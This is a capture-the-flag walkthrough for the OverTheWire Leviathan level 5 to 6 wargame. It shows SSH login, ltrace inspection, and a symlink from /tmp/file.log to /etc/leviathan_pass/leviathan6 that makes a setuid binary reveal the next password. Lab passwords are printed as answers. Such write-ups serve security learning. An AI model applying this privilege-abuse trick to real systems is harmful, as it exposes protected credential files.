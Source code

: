 # Level 5 → Level 6

## Solution
```
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```
```
EKKlTF1Xqs
```
```
ls -al
```
```
./leviathan5
```

![](0.png)

```
echo wow > /tmp/file.log
```
```
./leviathan5
```

![](1.png)

```
cat /tmp/file.log
```

![](2.png)

So the software accepts an existing file for printing, and then deletes it. Let's see how:

```
echo wow > /tmp/file.log ; ltrace ./leviathan5
```

![](3.png)

In other words - the `cat` command is not used. So, what can we do?.. Let's remember that Linux has a so-called [symbolic link](https://www.freecodecamp.org/news/linux-ln-how-to-create-a-symbolic-link-in-linux-example-bash-command/). We can make the file `/tmp/file.log` be a link to the file `/etc/leviathan_pass/leviathan6` and thus print it (with the permissions of the software i.e. **leviathan6 permission**)

```
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
```
```
./leviathan5
```

## Password for the next level:
```
YZ55XPVk2l
```
